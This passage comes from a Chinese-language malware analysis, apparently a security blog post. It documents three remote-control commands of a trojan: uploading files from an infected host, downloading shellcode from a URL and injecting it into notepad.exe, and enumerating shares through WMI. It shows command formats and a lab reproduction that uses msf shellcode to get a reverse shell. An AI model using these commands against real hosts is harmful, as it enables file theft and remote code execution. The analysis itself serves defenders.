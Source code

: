 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCZMYYHUQSI4G3rU9VLib5pib1U3szXaR2sJmOVIh6p8IsnMEGnzcNeK7w/640?wx_fmt=png&from=appmsg "")  
### ddmwbvctslqd  
  
通过分析，发现ddmwbvctslqd远控指令功能为上传被控主机中的指定文件，梳理ddmwbvctslqd远控指令的命令格式如下：  
```
ddmwbvctslqd|C:\Users\admin\Desktop\1.txt

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCDrcHLxrxkydPTAt2icDgzzxwmxIxl4jsRzNOicibP7UiatOdE5mAEPkhicQ/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCH4Dcf7mnnibgxkGgH2odZrz7dGvRgic9vYczo2oasueG47663Kt1tnmg/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCq7RibnRbjnbwtibzsWyyfevNnWiaVH68Jn1YLGp1qWPqkPfyia7hVWgRfw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCxPzIXm3PTmsRQZpgtSxJN01DAleS2HPMwYgXvzQdSS0w2fDnq2Qpcg/640?wx_fmt=png&from=appmsg "")  
### pindhdgenfhj  
  
通过分析，发现pindhdgenfhj远控指令功能为从指定url下载shellcode并注入notepad.exe，梳理pindhdgenfhj远控指令的命令格式如下：  
```
pindhdgenfhj|https://192.168.65.1/shellcode|apcmjudk

```  
  
为了能够完整复现shellcode注入过程，笔者使用msf生成shellcode载荷，并通过远控指令注入至notepad.exe进程中，注入成功后，shellcode将反弹cmd至msf中。  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCicKQJiauIKCC1Cx0nAkSc4gKdLYIGuNicyVia2C3HbwB5WY03B8WiaVgFgQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCQxrbZk50hmQ6hhPkAX5JpkAadTHc2gxKeexkef7SWZBy7Jlawiahhnw/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUC0akEaEBI9mpicwKmicdT8icD9xC8WHYcNkpEupFJZwNibOtOiclmQu0xFeA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCSz7L2XJEDfQKGSbH3aWA95QyGLXK7bMicvooXLP5HRhZVvHibmuuGn0g/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCetayuJLf5hARaiaqImsxeOJF0bmgicbYtyoicIaGuKvZMIEI9WY2Dj0cA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCBdcm6ibgpwYZzYo9zBUsVO7JmUvzcDcmBlFH1pG3U0Z4b21w8Q15tQQ/640?wx_fmt=png&from=appmsg "")  
### shpjduhjenume  
  
通过分析，发现shpjduhjenume远控指令功能为利用WMI获取Win32_Share类（Windows 操作系统上的共享资源信息）信息：共享文件夹等。  
  
